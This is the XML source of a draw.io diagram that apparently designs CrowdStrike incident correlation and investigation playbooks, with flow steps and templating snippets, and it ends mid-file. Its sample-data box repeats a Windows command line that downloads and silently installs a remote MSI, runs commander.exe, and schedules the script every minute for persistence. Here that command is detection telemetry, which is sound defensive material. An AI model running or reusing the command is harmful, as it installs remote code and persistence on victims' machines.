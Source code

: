 <mxfile version="22.0.4" type="github">
  <diagram name="Page-1" id="wvW3ehxdYdoYtSaxa3fH">
    <mxGraphModel dx="1050" dy="574" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="NKeEgVbL9whLPdXC6YmX-3" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-1" target="NKeEgVbL9whLPdXC6YmX-2">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-1" value="Crowdstrike Event Correlation" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="60" y="1390" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-2" target="NKeEgVbL9whLPdXC6YmX-4">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-2" value="Triggers&lt;br&gt;- On Event Ingestion" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="260" y="1390" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-9" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-4" target="NKeEgVbL9whLPdXC6YmX-22">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="670" y="1420" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-4" value="Correlation" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="460" y="1390" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-11" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-8" target="NKeEgVbL9whLPdXC6YmX-10">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-16" value="True" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-11">
          <mxGeometry x="0.151" y="-3" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-14" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-8" target="NKeEgVbL9whLPdXC6YmX-13">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-17" value="False" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-14">
          <mxGeometry x="0.042" y="-4" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-8" value="Any Incident Linked?" style="rhombus;whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="860" y="1370" width="100" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-10" value="Added to the Related Incident" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1119" y="1320" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-19" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-13" target="NKeEgVbL9whLPdXC6YmX-18">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-13" value="Check Artifacts" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1119" y="1470" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-21" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-18" target="NKeEgVbL9whLPdXC6YmX-20">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-18" value="Escalate to Incident" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1319" y="1470" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-20" value="Passdown" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1519" y="1470" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-23" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-22" target="NKeEgVbL9whLPdXC6YmX-8">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-22" value="Link Incident with Same ID&lt;br&gt;Command - Link to Related Event Incident" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="650" y="1390" width="150" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-24" value="" style="endArrow=none;html=1;rounded=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="730" y="1390" as="sourcePoint" />
            <mxPoint x="730" y="1320" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-28" value="&lt;h1&gt;API Response&lt;/h1&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;{&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; &quot;Escalate Incidents&quot;: [&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; &amp;nbsp; &quot;20230425-1573&quot;&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; ]&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;}&lt;/p&gt;" style="text;html=1;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;strokeColor=default;fillColor=default;" vertex="1" parent="1">
          <mxGeometry x="640" y="1160" width="180" height="160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-33" value="" style="endArrow=none;html=1;rounded=0;entryX=0.504;entryY=0.98;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-8">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="910" y="1520" as="sourcePoint" />
            <mxPoint x="920.86" y="1470" as="targetPoint" />
            <Array as="points">
              <mxPoint x="910" y="1490" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-45" value="&lt;h1&gt;Condition Type - Input&lt;/h1&gt;&lt;p&gt;{% set returnData = PlaybookData | jsonpath(&#39;$.[&quot;Link Incident with Same ID&quot;].returnData&#39;) | string_to_json_object%}&lt;/p&gt;&lt;p&gt;&lt;br&gt;&lt;/p&gt;&lt;p&gt;{{returnData|jsonpath(&#39;$.[&quot;Escalate to Incidents&quot;]&#39;)|to_list|length &amp;gt; 0}}&lt;/p&gt;" style="text;html=1;strokeColor=default;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="815" y="1520" width="190" height="240" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-48" value="&lt;h1&gt;Data Formatter&lt;br&gt;&lt;/h1&gt;&lt;p&gt;{{{&quot;EscalateTo&quot;: PlaybookData | jsonpath(&#39;$.[&quot;Check Artifacts&quot;].returnData.Data[*].IncidentNo&#39;)|to_list}}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=default;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1210" y="1630" width="360" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-49" value="" style="endArrow=none;html=1;rounded=0;entryX=0.592;entryY=1.016;entryDx=0;entryDy=0;entryPerimeter=0;exitX=0.473;exitY=0;exitDx=0;exitDy=0;exitPerimeter=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-48">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1320" y="1579.04" as="sourcePoint" />
            <mxPoint x="1380.04" y="1530" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-50" value="" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="50" y="1090" width="1600" height="740" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-52" value="&lt;font style=&quot;font-size: 24px;&quot;&gt;Nested Playbook For CrowdStrike&lt;/font&gt;" style="text;html=1;strokeColor=#6c8ebf;fillColor=#dae8fc;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="80" y="1110" width="320" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-56" value="&lt;font style=&quot;font-size: 24px;&quot;&gt;Incident Playbooks - Cross Stack Investigation&lt;br&gt;&lt;/font&gt;" style="text;html=1;strokeColor=#6c8ebf;fillColor=#dae8fc;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="80" y="110" width="320" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-57" value="" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="40" y="90" width="3460" height="820" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-60" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-58" target="NKeEgVbL9whLPdXC6YmX-59">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-72" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-58" target="NKeEgVbL9whLPdXC6YmX-71">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-58" value="CrowdStrike Data Ingestion" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="120" y="370" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-66" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-59" target="NKeEgVbL9whLPdXC6YmX-65">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-59" value="Investigation-Initial Findings&lt;br&gt;Commands - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="320" y="370" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-61" value="" style="endArrow=none;html=1;rounded=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-62" target="NKeEgVbL9whLPdXC6YmX-59">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="409.99" y="510.0" as="sourcePoint" />
            <mxPoint x="409.71" y="438.2" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-62" value="&lt;h1&gt;The Actual Data&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Host Name&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Source IP&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Command Line&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Event Time&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Data Source&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ]&lt;/p&gt;&lt;p&gt;&amp;nbsp; }&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="285" y="500" width="250" height="160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-68" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-65" target="NKeEgVbL9whLPdXC6YmX-67">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-65" value="Investigation-Initial Finding Behaviors&lt;br style=&quot;border-color: var(--border-color);&quot;&gt;Commands - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="570" y="370" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-67" value="Investigation-Summary&lt;br&gt;Commands - Add Investigation Details" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="830" y="370" width="140" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-76" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-71" target="NKeEgVbL9whLPdXC6YmX-75">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-71" value="Get Command Lines&lt;br&gt;Data Formatter" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="320" y="270" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-73" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-71" target="NKeEgVbL9whLPdXC6YmX-74">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="410" y="260" as="sourcePoint" />
            <mxPoint x="460" y="210" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-74" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;{{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[*].EventData.behaviors[*].cmdline&#39;)|unique}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="420" y="100" width="200" height="100" as="geometry" />
